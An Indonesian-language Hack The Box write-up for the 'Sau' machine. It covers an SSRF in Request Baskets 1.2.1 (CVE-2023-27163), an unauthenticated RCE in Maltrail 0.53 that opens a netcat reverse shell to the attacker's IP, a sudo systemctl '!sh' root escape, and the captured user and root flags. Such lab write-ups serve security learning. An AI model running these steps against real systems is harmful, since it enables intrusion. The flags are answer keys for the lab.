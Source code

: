 # Sau  
**SOLVED : 13 SEPT | 2023**  


## nmap
![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/fe6b7754-9647-4603-a391-2710a78c4113)
  
```
nmap 10.10.11.224 -p- -sVC  --min-rate 1000
```
![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/76a92f3a-8783-4a05-9465-faa647c0527f)  
Port yang open di **22** dan **55555**, maka dicoba diakses pada `10.10.11.224:55555`  
![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/f72067ae-be68-42ee-9c60-37a7bbbfb02e)  
  
## exploit
1. Pertama-tama dicoba untuk mengakses `10.10.11.224:55555` yang ternyata diarahkan kedalam sebuah "Request Baskets" dengan versi **1.2.1**  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/c142b35b-30f1-4c2e-b9ad-63e7abc44d70)  

2. Setelah itu dilakukan sedikit research lagi dan ditemukan ternyata adanya kerentanan pada "Request Baskets" dengan versi **1.2.1**, yaitu pada (CVE-2023-27163), disini kerentanannya adalah kemungkinan dilakukannya **Server-Side Request Forgery (SSRF)**  
   ```md
   # (CVE-2023-27163)
   Attackers to access network resources and sensitive information by exploiting the /api/baskets/{name} component through a crafted API request.
   Source : https://github.com/entr0pie/CVE-2023-27163
   ```
3. Dari sini, saya menggunakan tools untuk melakukan exploitasi dengan menggunakan https://github.com/entr0pie/CVE-2023-27163. Tools ini membantu untuk mengakses **port 80** yang sebelumnya berstatus **http filtered**.  
   Commands :
   ```
   ./CVE-2023-27163.sh http://10.10.11.224:55555/ http://127.0.0.1:80/
   ```
   
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/0f7b1fee-14fd-4498-9b5b-72f9184f5c40)
     
   Masukan token sesuai dengan yang diterakan pada tools.  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/2c264771-06dc-43a4-ad9f-2c9d311ff997)
     
   Coba untuk mengakses `10.10.11.224:55555/qsaeyb` yang sebenarnya akan diarahkan pada **http** yakni di port 80.  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/6f2642f0-346b-41d9-b594-fa93ef88110e)  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/8c6b244b-dbaf-4cce-a92a-051c01c69dca)  
   Dapat dilihat pada website ini menampilkan situs **Mailtrail (v0.53)**  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/a964462b-83ac-47c3-984e-6a037e2b1153)
   Request juga tertangkap pada web sebagaimana fungsi asli dari "Request Baskets".  

4. Setelah itu dilakukan sedikit research lagi dan ditemukan ternyata adanya kerentanan pada "Mailtrail" dengan versi **0.53**, yaitu dapat dilakukan "Unauthenticated Remote Code Execution Exploit"
5. Dari sini, saya kembali menggunakan tools dari https://github.com/HusenjanDev/CVE-2023-27163-AND-Mailtrail-v0.53 untuk melakukan exploitnya
   Command yang saya gunakan adalah  
   ```
   nc -lvnp 8333
   python3 exploit.py 10.10.16.42 8333 http://10.10.11.224:55555/qsaeyb/login
   ```
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/d35f770f-e674-4ced-81d3-692c825cfe44)  
   Jika belum melakukan _listen_ maka akan menuliskan "Login Failed" sama halnya dengan jika mengakses `http://10.10.11.224:55555/qsaeyb/login`  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/c3629ccc-d094-4f24-bb4c-a019cb1ec9b9)
6. Setelah berhasil masuk, maka dilakukan pencarian _user.txt_
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/a3be1d70-5eda-410b-843f-813eb7260985)  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/39e74b81-b93f-484d-9f99-499dc0a1d428)  
   **USER FLAG : 22366e50cf5e2f0f6ccceacadf92fef1**

## privilege escalation  
1. Pertama-tama saya menjalankan command `sudo -l` untuk memeriksa permissions sudo yang dimiliki user puma.
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/e99f44e4-06f4-4afe-8c8e-fa155c20b8bc)
   dan disini terlihat bahwa `(ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service`, maka untuk mengakses **systemctl status 
   trail.service** tidak memerlukan password  
   ![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/b7d58424-7d33-459c-a6e6-ee486938422e)
2. Untuk melakukan privilege escalation pada **sudo systemctl**, cukup menambahkan `!sh`, maka kita akan spawn shell lain, dan disini yang terjadi adalah shell dari root yang terbuka  
Sumber : https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/  
![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/b3e68dba-da9f-4449-993f-e8c77ef00190)  
3. Tahap berikutnya adalah mencari flag dari ROOT.  
![image](https://github.com/PlasmaRing/HTB-WRITE-UP/assets/92077284/6f33f1ac-099e-4983-966c-c0a2f249ce42)  
   **ROOT FLAG : af1d5d215f180ea877ca659d9c7cdf88**
